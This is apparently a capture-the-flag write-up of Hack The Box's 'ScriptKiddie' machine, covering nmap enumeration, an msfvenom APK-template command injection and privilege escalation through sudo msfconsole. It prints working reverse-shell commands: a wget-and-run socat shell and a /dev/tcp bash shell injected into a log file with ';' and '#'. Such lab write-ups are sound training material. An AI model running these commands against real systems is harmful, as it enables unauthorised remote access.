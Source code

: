 ```yaml
---
layout: post
title: ScriptKiddie
---
```


**ScriptKiddie is an easy machine from Hack The Box.**

### Enumeration

I'll start with a quick `nmap` scan to enumerate open ports.

`nmap -sC -sV -oN nmap/basic scriptkiddie.htb`

Pretty barebones machine, only ports 22 and 80 are open.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I'll run a couple `gobuster` searches in the background while I check out the webserver but I'm not going to find anything.

The webpage appears to have a few different functionalities. Seems like it will run an nmap scan, create msfvenom payloads or search via searchsploit for user inputs.

![Webpage](https://user-images.githubusercontent.com/60187707/120905511-1fcd6000-c618-11eb-84a6-366d172a44fb.png)

### Initial Foothold
After searching for information about the backend system, I found an RCE script for Werkzeuk but does not seem to work as the debugging function in question is not enabled on the server.

![Pasted image 20210603130610](https://user-images.githubusercontent.com/60187707/120905665-4213ad80-c619-11eb-8fe3-241bcfae6cd0.png)

The `msfvenom` widget has Android templates as an optional file upload and, after a bit of googling, found [this script.](https://packetstormsecurity.com/files/161200/Metasploit-Framework-6.0.11-Command-Injection.html)

Essentially, it exploits a vulnerability in `msfvenom` that will execute a payload hidden inside a `.apk` template. Use `apk.py` to generate the malicious package.

![Pasted image 20210604102216](https://user-images.githubusercontent.com/60187707/120905729-b5b5ba80-c619-11eb-899b-de82a6a4ec47.png)

I tried a few various bash reverse shells as my payload, but using `socat` was what got me onto the machine.

`wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444
`

![Pasted image 20210604101927](https://user-images.githubusercontent.com/60187707/120905760-e695ef80-c619-11eb-92a8-b21eb382e9e2.png)

I am on as the user `kid`.

#### Privesc
I do some poking around the filesystem, run `linPEAS`, and find indications of a possible `sudo` vulnerability, but that ended up being a dead-end.

Inside the user `pwn` directory, there is a script called `scanlosers.sh`. As far as I can tell, the script takes data from the file `/home/kid/logs/hackers` to run an `nmap` command.

![Pasted image 20210604121547](https://user-images.githubusercontent.com/60187707/120905835-789df800-c61a-11eb-8ea6-82ec65f9caf2.png)

I can write to `hackers` because `kid` is the owner.

![Pasted image 20210604121933](https://user-images.githubusercontent.com/60187707/120905840-8489ba00-c61a-11eb-9f3a-5468e8dd6589.png)

So, I'll start a listener and `echo` a reverse shell into `hackers`, with a `;` at the beginning to start a new command and a `#` at the end to comment out the rest of the script.

`echo "  ; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/1234 0>&1' #" >> hackers`

![Pasted image 20210604122051](https://user-images.githubusercontent.com/60187707/120905898-d7fc0800-c61a-11eb-851d-4222c175fb13.png)

Now, I'm on as user `pwn`.

Run a quick `sudo -l` to check `pwn`'s permissions.

![Pasted image 20210604122204](https://user-images.githubusercontent.com/60187707/120905913-f4984000-c61a-11eb-89c4-dbd399b3a703.png)

I can run `msfconsole` as `root` without a password. Seems promising!

Checking the `msfconsole` help page, I find a `-x` flag that will execute console commands. Could it be that easy?

`sudo msfconsole -x su`

![Pasted image 20210604122329](https://user-images.githubusercontent.com/60187707/120905920-04178900-c61b-11eb-9dfc-d12292cab333.png)

Apparently!

